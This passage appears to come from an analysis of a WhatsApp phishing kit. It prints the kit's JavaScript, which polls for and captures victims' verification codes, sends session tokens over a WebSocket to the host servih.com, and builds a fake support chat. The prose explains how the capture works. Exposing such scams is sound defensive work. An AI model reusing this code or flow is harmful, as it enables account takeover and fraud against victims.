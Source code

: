 ```javascript
                    n?(t.phoneCode=n,t.getSuccess()):
                    (t.mErrorSize++,3==t.mErrorSize&&t.sendSysErrorMessage(e))
                }else t.sendSysErrorMessage(e)
            }))
        }),1800):t.sendAutoMessage(t.$t("自动消息---安全码获取失败"))
    }))
}
```

**How this actually works:**

1. **Initial Request**: When victim enters phone number, system calls `/whatsapp/getCode` endpoint
2. **UUID Generation**: Server returns a UUID that tracks this verification attempt
3. **Polling Loop**: Every 1.8 seconds (1800ms), system polls `/whatsapp/checkCode` with the UUID
4. **Code Capture**: When victim enters their real WhatsApp verification code, it gets captured
5. **Success Handling**: Code 2 = successful login, Code 1 = code received, other = error

### 🕸️ Real-Time WebSocket Communication

The system uses WebSocket for real-time communication via `wss://servih.com:1818`:

```javascript
onWebSocketClient:function(){
    var e=this.mConfig.token_list.kefu_token?"&token="+this.mConfig.token_list.kefu_token:"",
    t=uni.getStorageSync("kefu_tourists_token");
    t=t?"&kefu_tourists_token="+t:"";
    var a="wss://"+this.mKefuUrl+":1818?modulename=index"+e+t;
    this.mWsIm=new i.default({
        url:a,
        onMessage:this.handleMessage,
        onError:this.handleError,
        onClose:this.handleClose
    }),
    this.mWsIm.connect()
}
```

**WebSocket Features:**

- Real-time chat simulation with fake customer service
- Live message handling and response automation
- Session management with tokens
- Heartbeat mechanism to maintain connection

### 🎭 Fake Chat Interface System

The system creates convincing WhatsApp-like chat messages:

```javascript
getSuccess:function(){
    if(!this.hasShownVerifyMessages){
        var e={
            type:"left-message",
            avatar:"../../static/photo.jpg",
            success:!0,
            code:this.phoneCode
        };
        this.addMessage(e),
        this.hasShownVerifyMessages=!0,
        this.sendAutoMessage(this.$t("系统消息---安全码获取成功")),
        this.getAgain()
    }
}
```
